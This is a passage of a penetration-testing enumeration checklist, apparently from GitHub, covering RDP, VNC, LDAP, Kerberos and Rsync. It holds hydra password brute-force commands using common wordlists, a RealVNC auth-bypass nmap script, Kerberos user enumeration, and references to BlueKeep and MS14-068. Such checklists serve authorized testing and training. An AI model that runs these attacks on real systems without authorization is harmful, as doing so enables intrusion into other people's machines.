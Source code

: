 	hydra -t 4  -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
	```
- [ ] Check for BlueKeep
- [ ] Check login with default guest account and blank password
- [ ] Check with gathered users:passwds

### VNC (TCP 5900)
- [ ] Enum with nmap
	```bash
	nmap -sV -Pn -vv --script\=vnc-info,vnc-title -oN nmap/vncEnum -p 5900 $ip
	```
- [ ] Check for easy VNC passwords
- [ ] Bruteforce:
	```bash
	hydra -s 5900 -P /usr/share/seclists/Passwords/darkweb2017-top10.txt vnc://$IP
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
	```bash
	site:github.com *Service version.release*
	```
	- [ ] Check with nmap
	```bash
	nmap -sV -Pn -vv --script realvnc-auth-bypass -oN nmap/vncAuthBypass -p 5900 $IP
	```

### LDAP (TCP/UDP 389) | LDAPS (TCP/UDP 636)
- [ ]  LDAPSearch can be utilized to locate and retrieve directory entries
	```bash
	ldapsearch -h $IP -p <PORT> -x -s base
	```

### Kerberos (88/464)
- [ ] Passive network sniffing
	```bash
	kerbcrack
	```
- [ ] User enumeration
	```bash
	nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=research $IP
	```
- [ ] Test MS14-068
### Rsync (TCP 873)
- [ ] Manual enumeration
	```bash
	nc -vn 127.0.0.1 873
	(UNKNOWN) [127.0.0.1] 873 (rsync) open
	@RSYNCD: 31.0        <--- You receive this banner with the version from the server
	@RSYNCD: 31.0        <--- Then you send the same info
	#list                <--- Then you ask the sever to list
	raidroot             <--- The server starts enumerating
	USBCopy        	
	NAS_Public     	
	_NAS_Recycle_TOSRAID	<--- Enumeration finished
	@RSYNCD: EXIT         <--- Sever closes the connection


[vulnscan.nse]: https://github.com/scipag/vulscan
[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum]: http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
[https://www.exploit-db.com/exploits/34900]: https://www.exploit-db.com/exploits/34900
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
[Owasp code injection]: https://owasp.org/www-community/attacks/Code_Injection
